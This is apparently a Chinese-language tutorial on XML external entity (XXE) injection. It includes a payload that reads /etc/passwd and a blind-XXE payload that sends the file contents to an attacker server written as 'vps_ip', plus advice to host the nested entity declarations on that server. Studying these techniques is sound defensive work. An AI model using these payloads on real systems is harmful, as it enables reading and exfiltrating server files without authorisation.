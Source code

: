 URL地址可以支持多种协议，当然不同的程序支持的协议也不同：

![1544449506(1)]({{site.url}}/images/1544449506(1).jpg)

上图是默认支持协议，还可以支持其他，如PHP支持的扩展协议有

![1544450164(1)]({{site.url}}/images/1544450164(1).jpg)

```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY pass SYSTEM "file:///etc/passwd">
]>
<x>&pass;</x>
```

读取`/etc/passwd` 下的文件

![1544495349(1)]({{site.url}}/images/1544495349(1).jpg)

那么为什么该文件会被读取出来呢？

1. xml解析器将`/etc/passwd` 文件内容取出，赋值给了实体`pass`
2. 实体`f`的值作为元素`x`中的字符串数据被php解析的时候取出，作为对象里的内容
3. 然后再输出该对象的时候被打印出来。

如果我们能控制外部实体的引用，那么我们就可以读我们想读的文件。

### 盲注的XXE任意文件读取

上面可知，xml解析的内容可以被输出的时候，我们可以采取上述方式，那么如果解析的内容不被输出，也就是数据没有回显，那么怎么办？

我们可以通过 `blind xxe`  进行攻击，主要使用了DTD约束中的参数实体和内部实体，前提是有一台攻击的服务器，大致的攻击步骤：

1. 利用 `file`协议读取本地文件
2. 利用 `http` 协议将文件内容访问攻击者的服务器
3. 查看服务器的日志

我们来看一下下面的写法：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % param1 "file:///etc/passwd">
<!ENTITY % param2 "http://vps_ip/?%param1">
%param2;
]>
```

此时xml解析时，就会将我们读取到的内容的param1实体带出，我们在vps服务器的log上就可以看到，但是上述构造存在语法问题。

**原因：** 不能在实体定义中引用参数实体，即有些解释器不允许在内层实体中使用外部连接，无论内层是一般实体还是参数实体。

![1544451990(1)]({{site.url}}/images/1544451990(1).jpg)

解决方法：

将嵌套的实体声明放在一个外部文件，一般放在攻击者的服务器上。
